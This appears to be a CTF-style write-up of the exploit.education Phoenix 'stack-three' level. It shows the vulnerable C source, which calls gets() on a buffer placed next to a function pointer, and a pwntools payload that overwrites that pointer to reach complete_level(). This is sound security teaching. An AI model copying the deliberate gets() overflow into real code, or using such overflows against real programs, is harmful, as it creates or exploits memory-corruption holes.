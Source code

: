 Source
```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

# Solution

I dunno why the comment in the source persisted from the last one, but you can safely ignore the rubbish about the changeme variable. The real goal is to make execution flow to the complete_level() function.

Much like the previous challenges, the buffer is filled with user input. Except this time we're overwriting the function pointer `locals.fp`

To find the address of `complete_level()` we can use the program `objdump`

![[../res/Pasted image 20230323205853.png]]

Python3 HATES printing raw bytes to stdout, so this is where I use `pwntools` to make this easy as hell:

```bash
 python -c 'from pwn import *; out = "A"*64; out += p64(0x40069d);print(out)' | ./stack-three
```

This is just a one liner for:

```python
from pwn import *

# fill up the buffer
out = "A" * 64
#use the p64 function to automatically account for \x and endian-ness
out += p64(0x40069d)
# print it out
print(out)
```


The magic here is in the p64() function. It automatically turns the address into a proper little endian 64-bit address.. it saves us having to manually write out `\x9d\x06\x40\x00\x00\x00\x00\x00` and manually figure a way for python3 to print raw bytes (which is why bad devs stuck with python2 for ages)

![[../res/Pasted image 20230324144055.png]]
